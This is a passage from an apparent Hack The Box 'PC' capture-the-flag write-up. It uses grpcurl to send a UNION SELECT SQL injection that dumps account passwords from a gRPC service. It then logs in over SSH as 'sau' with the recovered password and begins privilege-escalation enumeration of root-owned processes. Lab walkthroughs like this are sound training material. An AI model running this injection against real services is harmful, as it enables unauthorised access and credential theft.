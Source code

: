 We discover this `sau` user. Now let's make the same requesting with the password

```bash
grpcurl -plaintext \
  -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiSmlnc2F3NjQiLCJleHAiOjE3MjA4MzU1MDJ9.vCG_S9c_VNlCb3vuF8-HXR8Rw8TWt9T3nQzeHG6FzPk" \
  -d 'id: "42 UNION SELECT group_concat(password, '"'"','"'"') FROM accounts"' \
  -format text \
  -vv \
  10.10.11.214:50051 SimpleApp.getInfo
```

![Sau Password](/assets/images/HTB%20-%20PC/Sau%20password.png)

The password for the `sau` user has been identified as `HereIsYourPassWord1431` Let's try to SSH in with our newly discoverd credentials 

```bash
ssh sau@10.10.11.214
```
![SSH sau](/assets/images/HTB%20-%20PC/SSH%20as%20sau.png)

## Privilege Escalation

Let's check the kernel version with a `uname -a`,  and sudo permission with a `sudo -l`

`Linux pc 5.4.0-148-generic #165-Ubuntu SMP Tue Apr 18 08:53:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux`

`Sorry, user sau may not run sudo on localhost.`

Uninteresting. Let's check running processes with `ps -ef --forest`

- `-ef` Show all processes, not just those belonging to the current user & generate a full listing, providing more verbose output

- `--forest` Display process hierarchy in a tree-like format

![PS List](/assets/images/HTB%20-%20PC/Exploitable%20Processes.png)

There's a Python application running as root:
`/usr/bin/python3 /opt/app/app.py (PID 1059)`
Another Python process running as root:
`/usr/bin/python3 /usr/local/bin/pyload (PID 1063)`

Let's check listening TCP sockets on the system with the following  command

```bash
ss -lntp
```

![Local Web Sever](/assets/images/HTB%20-%20PC/Local%20web%20server.png)

This could be a local web server or application. Let's curl the local service and see what we get

![Curled Request](/assets/images/HTB%20-%20PC/Curled%20request.png)
